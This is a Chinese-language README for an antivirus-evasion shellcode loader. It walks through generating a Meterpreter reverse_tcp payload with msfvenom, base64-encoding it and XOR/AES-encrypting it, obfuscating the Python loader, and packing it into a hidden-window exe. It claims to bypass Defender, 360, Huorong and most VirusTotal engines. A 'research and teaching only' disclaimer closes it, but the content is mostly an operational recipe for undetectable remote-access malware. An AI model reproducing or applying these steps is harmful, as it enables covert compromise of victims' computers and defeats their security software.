 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图
![](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525156343-d09e4ca2-cf34-4fd0-a214-8429d736233d.png#crop=0&crop=0&crop=1&crop=1&from=url&id=pOHgi&margin=%5Bobject%20Object%5D&originHeight=1017&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525200953-17958e93-4b05-4571-b721-1fa0899cab6f.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=609&id=uc52334d8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=761&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=true&size=152617&status=done&style=none&taskId=uf646b4ab-a4ff-4915-ac9c-247f27f5b44&title=%E7%81%AB%E7%BB%92&width=1028.8 "火绒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525256207-e8a9c46a-c6ed-4dbc-9b23-056590331f50.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=742&id=uba33cae1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=927&originWidth=1256&originalType=binary&ratio=1&rotation=0&showTitle=true&size=151849&status=done&style=none&taskId=ubcd89f76-ab00-4621-9849-4980386bb94&title=360%E6%9D%80%E6%AF%92&width=1004.8 "360杀毒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525285242-8ab59c49-ba44-4a08-a61c-8553204b4c6b.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=658&id=uc0ddad1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=823&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=true&size=199897&status=done&style=none&taskId=uf2de339b-8045-4277-af70-6d0879a609b&title=360%E5%AE%89%E5%85%A8%E5%8D%AB%E5%A3%AB&width=1008 "360安全卫士")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525389400-740f14b8-a7d0-49ea-aa96-81f3326ca4aa.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=752&id=u509ce450&margin=%5Bobject%20Object%5D&name=image.png&originHeight=940&originWidth=1908&originalType=binary&ratio=1&rotation=0&showTitle=true&size=103618&status=done&style=none&taskId=ud3c698a7-1fc9-48f1-abdf-20d66f4def9&title=virustotal&width=1526.4 "virustotal")<br />[运行示例.mp4](https://www.yuque.com/attachments/yuque/0/2022/mp4/26697321/1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fmp4%2F26697321%2F1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4%22%2C%22name%22%3A%22%E8%BF%90%E8%A1%8C%E7%A4%BA%E4%BE%8B.mp4%22%2C%22size%22%3A9075464%2C%22type%22%3A%22video%2Fmp4%22%2C%22ext%22%3A%22mp4%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u4f7e269d-9214-4e7e-9b21-dc642edf43e%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22uf2aa31d4%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)
[![运行示例.mp4 (8.66MB)](https://gw.alipayobjects.com/mdn/prod_resou/afts/img/A*NNs6TKOR3isAAAAAAAAAAABkARQnAQ)]()<a name="w6pnE"></a>
## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。












